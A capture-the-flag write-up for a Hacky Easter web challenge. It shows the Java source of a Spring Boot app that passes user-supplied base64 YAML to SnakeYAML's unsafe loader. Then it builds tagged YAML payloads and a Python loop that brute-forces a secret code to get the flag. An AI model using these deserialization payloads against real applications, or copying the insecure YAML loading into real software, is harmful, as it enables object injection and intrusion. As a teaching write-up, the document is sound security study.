

## Challenge

I'm a big fan of digital art!

How do you like my new gallery?

http://ch.hackyeaster.com:2307

[digitalsnakeart.zip](writeupfiles/digitalsnakeart.zip)


Note: The service is restarted every hour at x:00.

## Solution

The website is a set of images generated by DALL-E


and e.g. the "Snakes in space" page looks like:



and has an url like:

```
http://ch.hackyeaster.com:2307/art?art=bmFtZTogU25ha2VzIGluIFNwYWNlCmltYWdlOiBzbmFrZXNfaW5fc3BhY2UKc291cmNlOiBEQUxMLUUKcmVzb2x1dGlvbjogMjU2eDI1Ng==
```

let's see what's in the base64 string:

```bash
$ echo "bmFtZTogU25ha2VzIGluIFNwYWNlCmltYWdlOiBzbmFrZXNfaW5fc3BhY2UKc291cmNlOiBEQUxMLUUKcmVzb2x1dGlvbjogMjU2eDI1Ng==" | base64 -d
name: Snakes in Space
image: snakes_in_space
source: DALL-E
```

So we probably have to manipulate that base64 string to get it to give it our flag.

But we get the source code, so let's look at that:


```java
package com.hackyeaster.digitalsnakeart;

import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;

@SpringBootApplication
public class Application {

    public static void main(String[] args) {
        SpringApplication.run(Application.class, args);
    }
}
```
{: file='writeupfiles/digitalsnakeart/com/hackyeaster/Application.java'}

```java
package com.hackyeaster.digitalsnakeart;

public class Code {

    private final short code;

    public Code(short code) {
        this.code = code;
    }

    public boolean isCorrect() {
        return (code > 0 && code < 500 && code == SnakeService.getSecretCode());
    }

}
```
{: file='writeupfiles/digitalsnakeart/com/hackyeaster/Code.java'}


```java
package com.hackyeaster.digitalsnakeart;

import java.io.ByteArrayInputStream;
import java.io.InputStreamReader;
import java.nio.charset.StandardCharsets;
import java.util.Base64;
import org.springframework.beans.factory.annotation.Autowired;
import org.springframework.core.env.Environment;
import org.springframework.ui.Model;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.yaml.snakeyaml.Yaml;

@org.springframework.stereotype.Controller
public class Controller {

    @Autowired
    private Environment env;

    @GetMapping("/")
    public String index(Model model) {
        return "index";
    }

    @GetMapping("/art")
    public String path(Model model, @RequestParam(name = "art") String art) {
        SnakeService.initialize(env);
        SnakeArt result = parse(art);
        if (result == null) {
            return "fail";
        }
        model.addAttribute("name", result.getName());
        model.addAttribute("image64", result.getImage().getBase64String());
        model.addAttribute("source", result.getSource());
        model.addAttribute("resolution", result.getResolution());
        return "art";
    }

    private SnakeArt parse(String string) {
        try {
            byte[] yml = Base64.getDecoder().decode(string);
            InputStreamReader reader = new InputStreamReader(new ByteArrayInputStream(yml), StandardCharsets.UTF_8);
            return new Yaml().loadAs(reader, SnakeArt.class);
        } catch (Exception e) {
            e.printStackTrace();
            return null;
        }
    }

}
```
{: file='writeupfiles/digitalsnakeart/com/hackyeaster/Controller.java'}


```java
package com.hackyeaster.digitalsnakeart;

public class Flag extends Image {

    public Flag(Code code) {
        if (code.isCorrect()) {
            this.base64String = SnakeService.loadFlag();
        } else {
            this.base64String = SnakeService.load("snake_no_access");
        }
    }
}
```
{: file='writeupfiles/digitalsnakeart/com/hackyeaster/Flag.java'}

```java
package com.hackyeaster.digitalsnakeart;

public class Image {

    protected String base64String;

    public String getBase64String() {
        if (base64String == null) {
            return SnakeService.load("fail");
        }
        return base64String;
    }

    protected Image() {
    }

    public Image(String name) {
        this.base64String = SnakeService.load(name);
    }
}
```
{: file='writeupfiles/digitalsnakeart/com/hackyeaster/Image.java'}

```java
package com.hackyeaster.digitalsnakeart;

import lombok.Getter;
import lombok.Setter;

public class SnakeArt {

    @Getter
    @Setter
    public String name;

    @Getter
    @Setter
    public Image image;

    @Getter
    @Setter
    public String source;

    @Getter
    @Setter
    public String resolution;

}
```
{: file='writeupfiles/digitalsnakeart/com/hackyeaster/SnakeArt.java'}

```java
package com.hackyeaster.digitalsnakeart;

import org.springframework.core.env.Environment;
import org.springframework.stereotype.Service;

@Service
public class SnakeService {

    private static Environment env;

    static void initialize(Environment environment) {
        if (env == null) {
            env = environment;
        }
    }

    static short getSecretCode() {
        return env != null ? new Short(env.getProperty("secret.code")) : -1;
    }

    static String load(String name) {
        if (name != null && name.startsWith("snake") && name.length() <= 30) {
            return env.getProperty("image." + name);
        }
        return env.getProperty("image.notfound");
    }

    static String loadFlag() {
        return env.getProperty("image.flag");
    }

}

```
{: file='writeupfiles/digitalsnakeart/com/hackyeaster/SnakeService.java'}


So it looks like there is a secret code stored in `env.getProperty("secret.code")`

## SnakeYaml

So it's definitely SnakeYaml which had a [recent CVE](https://nvd.nist.gov/vuln/detail/CVE-2022-1471). Their wiki makes for some [fun reading](https://bitbucket.org/snakeyaml/snakeyaml/wiki/CVE-2022-1471), [especially the issue that is linked](https://bitbucket.org/snakeyaml/snakeyaml/issues/561/cve-2022-1471-vulnerability-in) where Andrey asserts quite strongly that developers will only ever load trusted YAML.

Not sure if we need to do [this sort of setup with our own class hosted somewhere?](https://www.websec.ca/publication/Blog/CVE-2022-21404-Another-story-of-developers-fixing-vulnerabilities-unknowingly-because-of-CodeQL), that seems excessive since we don't really need RCE, and we know which classes we can work with.

Here's the script I have so far:

```
t = f"""
!!com.hackyeaster.digitalsnakeart.Flag
image: snakes_at_the_beach
name: &K snek
source: asdf
source: *K
resolution: 256x256
""".strip()


print(t)
query = base64.b64encode(t.encode('utf-8')).decode('utf-8')
print(query)
res = requests.get("http://ch.hackyeaster.com:2307/art?art=" + query).text.split('\n')

for x in res:
    if '<h' in x:
        print(x)
    if '<img' in x:
        digest = hashlib.md5(x.encode('utf-8')).hexdigest()
        if digest == "6bb27636aafe5e67fdc4ce31ff771942":
            print("404 error")
        else:
            print(digest)
```

but it seems to accept any value for the `!!com` bit so I guess I'm not doing that right. Looking at how python does it so I don't have to read java:

```python
class A:
    def __init__(self, a=0):
        self.a = a

class Z(int):
    pass

class B:
    def __init__(self, a):
        self.a = a

import yaml
b = B(A(a=Z(1)))
print(yaml.dump(b))
```

produces the following yaml:

```
!!python/object:__main__.B
a: !!python/object:__main__.A
  a: !!python/object/new:__main__.Z
  - 1
```


## Exploiting

Ok so `com.hackyeaster.digitalsnakeart.Flag` is a super class of `Image`, so we just need to first annotate that it's an image:

```yaml
!!com.hackyeaster.digitalsnakeart.SnakeArt
image: !!com.hackyeaster.digitalsnakeart.Flag
- 42
name:
- &K snek
source: asdf
source: *K
resolution: 256x256
```

Apparently, judging by the python above, you can just pass class arguments as a list (?!?!) and that's equivalent to passing an argument by itself.

You can see I was testing other common yaml nonsense like references to see if that was the solution but no joy.

```yaml
name: snek
name:
- snek
```

For some reason these are equivalent? That's kinda wild to me. SnakeYaml is truly bizarre.

Anyway, now we can just iterate over values rather than 42 (literally just did a for loop range(500)) and it gave us the flag!

```python
import hashlib
import requests
import base64

for i in range(500):
    print(i)
    t = f"""
    !!com.hackyeaster.digitalsnakeart.SnakeArt
    image: !!com.hackyeaster.digitalsnakeart.Flag
    - {i}
    name: snek
    source: asdf
    source: snek
    resolution: 256x256
    """.strip()

    query = base64.b64encode(t.encode('utf-8')).decode('utf-8')
    res = requests.get("http://ch.hackyeaster.com:2307/art?art=" + query).text.split('\n')

    for x in res:
        #if '<h' in x:
        #    print(x)
        if '<img' in x:
            digest = hashlib.md5(x.encode('utf-8')).hexdigest()
            if digest == "6bb27636aafe5e67fdc4ce31ff771942":
                print("404 error")
            elif digest == "5c2542cae881042b452596416a33eb66":
                print("TODO error")
            elif digest == "0f6ef75665a4cbb3998311f0ef021d19":
                print("beach snakes")
            elif digest == "10e42425510009d3c98ae54cec482039":
                print("false flag")
            else:
                print(t)
                print(query)
                print(digest)
                break
```


